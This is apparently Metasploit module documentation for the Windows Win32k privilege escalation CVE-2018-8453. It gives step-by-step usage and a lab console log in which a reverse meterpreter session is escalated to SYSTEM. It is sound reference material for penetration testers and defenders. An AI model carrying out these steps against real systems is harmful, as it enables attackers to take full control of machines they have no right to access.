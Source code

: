 ## Vulnerable Application

An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory, aka "Win32k Elevation of Privilege Vulnerability." This affects Windows 7, Windows Server 2012 R2, Windows RT 8.1, Windows Server 2008, Windows Server 2019, Windows Server 2012, Windows 8.1, Windows Server 2016, Windows Server 2008 R2, Windows 10, Windows 10 Servers.

This module has been tested with Windows 10 v1703 x86. Offsets within the solution may need to be adjusted to work with other version of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Win10 v1703 x86
2. `use exploit/windows/local/cve_2018_8453_win32k_priv_esc`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 10 v1703 x86

```
msf exploit(windows/local/cve_2018_8453_win32k_priv_esc) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                 Connection
  --  ----  ----                     -----------                                 ----------
  1         meterpreter x86/windows  DESKTOP-T6J3V2L\testuser @ DESKTOP-T6J3V2L  172.22.222.136:4444 -> 172.22.222.130:49693 (172.22.222.130)

msf exploit(windows/local/cve_2018_8453_win32k_priv_esc) > set session 1
session => 1
msf exploit(windows/local/cve_2018_8453_win32k_priv_esc) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[+] Exploit finished, wait for privileged payload execution to complete.
[*] Sending stage (179779 bytes) to 172.22.222.130
[*] Meterpreter session 2 opened (172.22.222.136:4444 -> 172.22.222.130:49695) at 2019-06-20 08:53:01 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-T6J3V2L
OS              : Windows 10 (Build 15063).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.22.222.130 - Meterpreter session 2 closed.  Reason: User exit
msf exploit(windows/local/cve_2018_8453_win32k_priv_esc) > 
```
